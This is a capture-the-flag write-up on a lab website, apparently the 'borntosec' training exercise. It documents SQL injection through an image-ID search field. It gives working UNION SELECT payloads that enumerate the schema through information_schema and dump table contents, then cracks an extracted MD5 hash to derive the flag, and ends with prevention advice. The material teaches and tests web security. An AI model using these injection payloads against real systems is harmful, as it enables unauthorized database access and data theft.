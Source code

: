 # SQL Injection: Image Search Page Vulnerability

## Overview

A SQL Injection vulnerability on the Image Search page, allows attackers extract database details and sensitive content.

---

## Discovery & Exploitation

### 1. Confirm the Vulnerability
- Input in search: `1' OR TRUE`
- Result: With single quote did not work.

- Enter `1 OR TRUE` in the image ID input field.
- Result: All 5 images are displayed, confirming SQL injection.

### 2. Extract DB and Table Info
- Enter `-1 union select database(), user()` in the ID field.
- Result:  
  - **ID:** -1 union select database(), user()  
  - **Title:** borntosec@localhost  
  - **Url:** Member_images

- Query: `-1 UNION SELECT 1,table_name FROM information_schema.tables `
- Result: Reveals all Table names

### 3. Enumerate Structure
- Enter `-1 UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_schema=database() --` in the ID field.
- Result: Reveals table/column names, e.g.:  
  `list_images (id, url, title, comment)`

another option is directly using hex value of the Table "list_images" which is 0x6C6973745F696D61676573
since using quote i.e. FROM "users" is not possible

- Query: `-1 union select column_name, table_name FROM information_schema.columns WHERE table_name LIKE 0x6C6973745F696D61676573`
- Result: Lists table/column names (e.g., `list_images`, `id`, `url`, `title`, `comment`, etc.)

### 4. Dump Table Data
- Enter `-1 UNION SELECT concat(id, url), concat(title,comment) FROM list_images --` in the ID field.
- Result: Shows all image data, including a challenge.

---

## Challenge: Crack the Flag

- **Extracted MD5 hash:** `1928e8083cf461a51303633093573c46`
- **How to decode:**  
  Use online services like [dcode.fr](https://www.dcode.fr/md5-hash) or [crackstation.net](https://crackstation.net) to look up or crack MD5 hashes.

- **MD5 decrypted:** `albatroz`  
- **Convert to lowercase:** `albatroz`  
- **Get SHA256:**

    ```bash
    echo -n 'albatroz' | sha256sum
    ```

- **Flag:**  
  `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

---

## Prevention

1. **Parameterized Queries**
    ```php
    $stmt = $db->prepare("SELECT * FROM list_images WHERE id = ?");
    $stmt->bind_param("i", $id);
    ```
2. **Input Validation**
    ```php
    if (!is_numeric($id)) { exit("Invalid input"); }
    ```
3. **Database Security**
    - Use least-privilege accounts
    - Suppress detailed error messages
    - Monitor DB activity

4. **Web Application Firewall**
    - Deploy a WAF to block known attack patterns

5. **Regular Security Testing**
    - Conduct routine scans and penetration tests

---

> Even basic input validation failures can lead to total database compromise. Always validate and sanitize user input.
